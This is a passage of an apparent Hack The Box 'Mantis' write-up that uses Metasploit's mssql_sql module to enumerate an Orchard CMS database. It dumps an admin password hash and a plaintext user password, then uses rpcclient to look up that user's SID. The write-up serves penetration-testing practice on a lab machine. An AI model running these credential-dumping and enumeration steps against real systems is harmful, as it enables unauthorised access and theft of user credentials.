<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Containers_ContainablePartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Title_TitlePartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Navigation_MenuPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Navigation_AdminMenuPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Scheduling_ScheduledTaskRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_ContentPicker_ContentMenuItemPartRecord&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Alias_AliasRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Alias_ActionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Autoroute_AutoroutePartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">blog_Orchard_Users_UserPartRecord</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Roles_PermissionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Roles_RoleRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Roles_RolesPermissionsRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Roles_UserRolesPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Packaging_PackagingSource&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Recipes_RecipeStepResultRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_OutputCache_CacheParameterRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_MediaProcessing_ImageProfilePartRecord&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_MediaProcessing_FilterRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_MediaProcessing_FileNameRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Widgets_LayerPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Widgets_WidgetPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Comments_CommentPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Comments_CommentsPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Taxonomies_TaxonomyPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Taxonomies_TermPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Taxonomies_TermContentItem&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Taxonomies_TermsPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_MediaLibrary_MediaPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Blogs_BlogPartArchiveRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE</p>

<p><font color="RoyalBlue">[*]</font> Auxiliary module execution completed
<br>msf auxiliary(<font color="red">mssql_sql</font>) ></p>

</div>
</font>

<br>We got a lot of Table names but we will focus on **blog__Orchard_Users_UserPartRecord** for further enumeration


<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf auxiliary(mssql_sql) > set SQL USE orcharddb; "SELECT * FROM INFORMATION_SCHEMA.COLUMNS where <br>TABLE_NAME='blog_Orchard_Users_UserPartRecord'"
<br>SQL => USE orcharddb; SELECT * FROM INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='blog_Orchard_Users_UserPartRecord'
<br>msf auxiliary(mssql_sql) > exploit </p>

<p>[*] 10.10.10.52:1433 - SQL Query: USE orcharddb; SELECT * FROM INFORMATION_SCHEMA.COLUMNS where <br>TABLE_NAME='blog_Orchard_Users_UserPartRecord'
<br>[*] 10.10.10.52:1433 - Row Count: 14 (Status: 16 Command: 193)</p>

</div>
</font>

![7](https://teckk2.github.io/assets/images/Mantis/7.png)

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf auxiliary(<font color="red">mssql_sql</font>) > set SQL USE orcharddb; SELECT Id,Email,NormalizedUserName,Password,PasswordFormat,HashAlgorithm,PasswordSalt FROM blog_Orchard_Users_UserPartRecord
<br>SQL => USE orcharddb; SELECT Id,Email,NormalizedUserName,Password,PasswordFormat,HashAlgorithm,PasswordSalt FROM blog_Orchard_Users_UserPartRecord
<br>msf auxiliary(<font color="red">mssql_sql</font>) > exploit</p> 

<p><font color="RoyalBlue">[*]</font> 10.10.10.52:1433 - SQL Query: USE orcharddb; SELECT <br>Id,Email,NormalizedUserName,Password,PasswordFormat,HashAlgorithm,PasswordSalt FROM blog_Orchard_Users_UserPartRecord
<br><font color="RoyalBlue">[*]</font> 10.10.10.52:1433 - Row Count: 2 (Status: 16 Command: 193)</p>



<p>&nbsp;Id&nbsp;&nbsp;Email&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NormalizedUserName&nbsp;&nbsp;Password&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;PasswordFormat&nbsp;&nbsp;HashAlgorithm&nbsp;&nbsp;PasswordSalt
<br>&nbsp;--&nbsp;&nbsp;-----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;------------------&nbsp;&nbsp;--------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;--------------&nbsp;&nbsp;-------------&nbsp;&nbsp;------------
<br>&nbsp;2&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">admin</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==</font>&nbsp;&nbsp;Hashed&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;PBKDF2&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">UBwWF1CQCsaGc/P7jIR/kg==</font>
<br>&nbsp;15&nbsp;&nbsp;james@htb.local&nbsp;&nbsp;<font color="ffff00">james</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">J@m3s_P@ssW0rd!</font>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Plaintext&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Plaintext&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NA</p>

<p><font color="RoyalBlue">[*]</font> Auxiliary module execution completed
<br>msf auxiliary(<font color="red">mssql_sql</font>) ></p>

</div>
</font>

<br>We got the James user plaintext password
<br>Email = **james@htb.local**
<br>Username = **james**
<br>Password = **J@m3s_P@ssW0rd!**

<br>Now using thie credential login to RPC client and extract the SID of user james 

<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># rpcclient -U james 10.10.10.52
<br>Enter WORKGROUP\james's password: 
<br>rpcclient $> lookupnames james
<br>james <font color="ffff00">S-1-5-21-4220043660-4019079961-2895681657-1103</font> (User: 1)
<br>rpcclient $> </p>

</div>
</font>







